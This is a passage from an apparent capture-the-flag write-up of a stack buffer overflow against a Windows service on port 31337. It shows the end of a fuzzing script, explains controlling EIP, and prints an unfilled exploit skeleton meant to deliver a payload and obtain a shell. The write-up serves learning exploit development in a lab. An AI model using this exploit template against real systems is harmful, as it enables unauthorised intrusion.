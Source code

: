 ```python
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```
The script creates a TCP connection to the Windows 7 machine on the port 31337, with the application running inside immunity debugger, and then sends the character string, 100 bytes at a time, until it crashes.

On running, we see it crashes after 200 bytes have been sent.

![](/assets/img/images/gatekeeper/fuzzing.png)

### Offset

The reason to finding the offset is so that we are able to control the EIP(Extended Instruction Pointer), which in essence tells the computer where to go next to execute a command. By controlling this value, we can tell the computer to execute our malicious code instead.

The final exploit code skeleton is shown below : You can read more about it on [Tib3rius Github](https://medium.com/r/?url=https%3A%2F%2Fgithub.com%2FTib3rius%2FPentest-Cheatsheets%2Fblob%2Fmaster%2Fexploits%2Fbuffer-overflows.rst) but basically, it sends a malicious payload to the vulnerable application, at the right offset and return address, to give us a shell on the host.

```python
import socket
#Change to your IP
ip = "x.x.x.x"
port = 31337
prefix = ""
offset = 0
overflow = "A" * offset
return_addr = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + return_addr + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
To find the offset, we first generate a cyclic pattern with a load value of 200 and use it to crush the application.
